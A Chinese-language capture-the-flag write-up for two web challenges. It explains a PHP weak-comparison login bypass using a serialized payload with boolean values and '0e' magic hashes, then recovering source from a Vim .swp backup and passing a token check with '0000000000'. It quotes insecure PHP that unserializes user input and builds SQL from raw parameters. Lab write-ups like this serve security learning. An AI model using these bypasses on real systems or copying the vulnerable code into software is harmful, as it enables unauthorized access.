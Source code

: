 ## 天网管理系统

F12 看到登录判断代码，是需要用户名 md5 值为 0，任意选一个 md5 以 `0e` 开头的字符串就会被当作是 0 处理。登录后得到一个 url，访问得到：

```php
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] =='???'&& $data_unserialize['pass']=='???')
{
  print_r($flag);
}
```

得到关于 `password` 的提示，这里利用弱等于漏洞，直接让 `user` 和 `pass` 都为 `true` 即可。payload:

```php
username=admin&password=a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
```

## 忘记密码了

随便填个邮箱地址，在源代码中发现这样两行：

```html
<meta name="admin"content="admin@simplexue.com"/>
<meta name="editor"content="Vim"/>
```

第二行的 `vim` 一般指 Vim 编辑器，容易联想到它产生的备份文件 `.swp`，可能在网站目录下存在这类文件。而第一行的邮箱显然就是我们需要的管理员邮箱了。

此外还能得到提示：下一步跳转到 `step2.php`，接收一个 `email` 参数和一个 `check` 参数。如果随意填写 `check` 参数则会显示 `check error` 然后返回 `step1.php`。

抓包访问 `step2.php`，查看源码，注意到它会提交请求到 `submit.php`，而如果直接访问则会得到 `you are not an admin`。因此考虑获取三个页面中某一个的源码，尝试 `.step1.php.swp` 和 `.step2.php.swp` 无果，但是存在 `.submit.php.swp`。核心代码：

```php
if(!empty($token)&&!empty($emailAddress)){
    if(strlen($token)!=10) die('fail');
    if($token!='0') die('fail');
    $sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
    $r = mysql_query($sql) or die('db error');
    $r = mysql_fetch_assoc($r);
    $r = $r['num'];
    if($r>0){
        echo $flag;
    }else{
        echo "失败了呀";
    }
}
```

这里要求 `token` 长度为 10 且值等于 0，可以直接令其等于 `0000000000`（`0e` 绕过应该也行）。最终 payload：

```
http://ctf5.shiyanbar.com/10/upload/submit.php?emailAddress=admin@simplexue.com&token=0000000000
```

